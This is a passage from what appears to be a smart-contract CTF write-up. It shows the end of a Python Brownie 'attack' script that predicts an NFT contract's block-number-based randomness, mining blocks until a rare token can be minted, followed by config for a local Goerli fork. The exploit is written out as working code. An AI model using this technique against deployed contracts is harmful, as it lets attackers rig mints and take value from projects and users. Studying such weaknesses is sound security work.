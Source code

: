 ```py
                nft_id + 1,
                attacker.address,
                web3.eth.blockNumber,
            ],
        )
        u256 = web3.toInt(web3.keccak(encoded_data))

        # print(u256)
        if (u256 % 100) > 90:
            nft.mint({"from": attacker, "value": "1 ether"})
            print(u256)
            print(u256 % 100)
            break
        else:
            # make some fake tx to increase the blockNumber
            # jadu.transfer(attacker, "0.001 ether").wait(1)
            # mine next block
            chain.mine(1)
    # print(attacker.balance())

    nft_id = nft.id()
    print(f"{green}NFT Id: {blue}{nft_id}")
    print(f"{green}NFT type: {blue}{nft.tokens(nft_id)}")

    assert nft.tokens(nft_id) == 3


def main():
    attack()


if __name__ == "__main__":
    main()

```

- To fork `goerli` properly use this `brownie-config.yaml`. Where `$goerlifork` is a `environment` variable set to the `API` URL(`Alchemy` or `Infura`). 
```yaml
dotenv: .env
networks:
  default: goerli-fork-local
  goerli-fork-local:
    cmd_settings:
      # block to fork 8948253
      fork: $goerlifork@8948253
    verify: False
```

- And add this to you `~/.brownie/network-config.yaml`
```yml
- cmd: ganache-cli
  cmd_settings:
    accounts: 10
    evm_version: istanbul
    fork: goerli
    gas_limit: 12000000
    mnemonic: brownie
    port: 8545
  host: http://127.0.0.1
  id: goerli-fork-local
  name: Ganache-CLI (Goerli Fork Local)
  timeout: 120
```
